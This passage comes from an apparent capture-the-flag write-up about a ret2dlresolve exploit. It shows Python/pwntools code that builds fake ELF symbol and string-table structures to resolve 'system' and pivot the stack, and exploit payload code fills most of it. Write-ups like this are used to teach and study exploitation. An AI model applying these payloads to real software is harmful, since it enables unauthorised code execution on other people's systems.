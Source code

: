 So this is easier because we don't have a division in the calculation. So we will choose any address which doesn't overwrite the other data:

```
STRTAB_addr  = rw_section + 0x80     = 0x403e80
st_name      = STRTAB_addr - STRTAB  = 15296
```

And the struct for STRTAB is just simply a string contain the function we want:

```
STRTAB_struct = b'system\x00\x00'
STRTAB_struct += p64(0)              # Just for padding so we don't need to sleep() when read
```

From here, we have 2 things we haven't done is st_name of Elf64_Sym and r_offset of Elf64_Rela. For st_name, we can get that from STRTAB above so stage 2 will change like this:

```
SYMTAB = 0x400290

Elf64_Sym_addr = rw_section
symbol_number  = int( (Elf64_Sym_addr - SYMTAB) / 24 )

st_name = p32(15296)        # Change here
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
# st_size is null already because the stack now contain all null byte
# so we don't need to write these variable, just need to pad full 0x10 
# bytes so that we don't need to sleep()
Elf64_Sym_struct = st_name + st_info + st_other + st_shndx + st_value
```

And for r_offset, we just leave it as `0xdeadbeef` and will change that after checking the stack. So now we just move to the next stage to know if our struct are in the correct position or not.

### Stage 5. Conduct ret2dlresolve & Leak libc address ([Table of content](#table-of-content))

We have the address for each struct so now just write stuff to stack. Remember where we stopped was at the stage 1 with the following code:

```
rw_section = 0x403e00
mov_rsi_rbp_read = 0x401027

payload = p64(rw_section)           # Fake rbp
payload += p64(mov_rsi_rbp_read)    # rip
payload += p(0)*2                   # Just for padding so that we don't need to sleep()
p.send(payload)
```

So we will need to change the place we stack pivot because we want to write Elf64_Sym at the same time we stack pivot so our first stage will change a bit at the fake rbp:
